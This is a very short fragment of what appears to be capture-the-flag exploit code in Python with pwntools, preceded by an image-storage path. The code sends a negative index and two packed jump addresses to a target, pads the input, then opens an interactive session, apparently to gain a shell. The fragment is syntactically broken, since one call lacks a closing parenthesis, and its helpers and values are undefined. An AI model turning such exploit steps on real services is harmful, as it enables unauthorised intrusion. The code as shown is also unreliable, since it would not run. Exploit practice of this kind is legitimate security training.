 ```python
r.sendline(str(-99))
r.sendline(d64(p64(jmp1))
r.sendline(d64(p64(jmp2)))

for i in range(0, 64 - 7):
    r.sendline(pad)

r.interactive()
```
